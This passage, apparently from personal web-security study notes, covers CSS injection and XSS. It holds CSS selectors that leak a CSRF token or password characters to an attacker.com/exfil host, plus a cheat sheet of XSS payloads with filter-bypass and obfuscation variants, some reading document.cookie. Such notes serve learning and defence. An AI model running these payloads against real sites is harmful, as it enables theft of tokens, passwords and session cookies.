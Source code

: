 ```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```

>[!warning]
>This technique won't work if the filed is **hidden**, because the background won't be loaded.
>Fix:
>```css
>input[name=csrf][value^=csrF] ~ * {
>    background-image: url(https://attacker.com/exfil/csrF);
>}
>```

A CSS "keylogger" [^video] can be constructed in the same way [^css-k] :

[^css-k]: https://github.com/maxchehab/CSS-Keylogging
[^video]: [The Curse of Cross-Origin Stylesheets - Web Security Research](https://youtu.be/bMPAXsgWNAc?si=fsmfIXeraW_2bDOM&t=317)
```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

With CSS injection however, it is also possible to perform [UI redressing](Clickjacking.md#UI%20redressing%20and%20XSS) in order to re-define any CSS style included in the original page in order to hijack the original behavior.

More attacks can be found at
- [CSS Injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection), HackTricks 
- [Blind CSS Exfiltration: exfiltrate unknown web pages](https://portswigger.net/research/blind-css-exfiltration), PortSwigger


---

# XSS cheat sheets & filtering bypass

```html
<script>alert("Hacked!")</script>                                   <!-- Classic payload -->  
<ScRiPt>alert("Hacked!")</ScRiPt>                                   <!-- Case insensitive bypass -->
<sc<script>ript>alert("XSS");</scr</script>ipt>                     <!-- word control bypass -->
<script type="text/javascript">alert(document.cookie)</script>      <!-- legacy syntax bypass -->
<svg onload="alert(document.cookie)">                               <!-- JS from HTML bypass -->
<img src=x onerror=alert(1337)>                                     <!-- JS on error when loading a non existing image -->
<script/junk>alert(1)</script>                                      <!-- random junk after the tag -->
<a href="javascript:alert(1)">show</a>                              <!-- XSS using <a href> tag -->

<!-- Obfuscation -->
<img src=x onerror="&#x61;lert(1)">                                 <!-- Obfuscation via HTML encoding -->
<a href="javascript&#00000000000058;alert(1)">Click me</a>          <!-- Obfuscation via leading zeros in HTML encodings (deciaml and hex) -->
<a href="javascript:\u0061lert(1)">Click me</a>                     <!-- Obfuscation via Unicode encoding -->
<a href="javascript:\u{0000000003a}alert(1)">Click me</a>           <!-- Obfuscation via leading zeros in unicode encoding -->
```

[^CSP-JSONP]: [Riding the Waves of API Versioning Unmasking a Stored XSS Vulnerability, CSP Bypass Using YouTube OEmbed](../../Readwise/Articles/SMHTahsin33%20-%20Riding%20the%20Waves%20of%20API%20Versioning%20Unmasking%20a%20Stored%20XSS%20Vulnerability,%20CSP%20Bypass%20Using%20YouTube%20OEmbed.md), SMHTahsin33
[^1]: https://portswigger.net/web-security/cross-site-scripting/preventing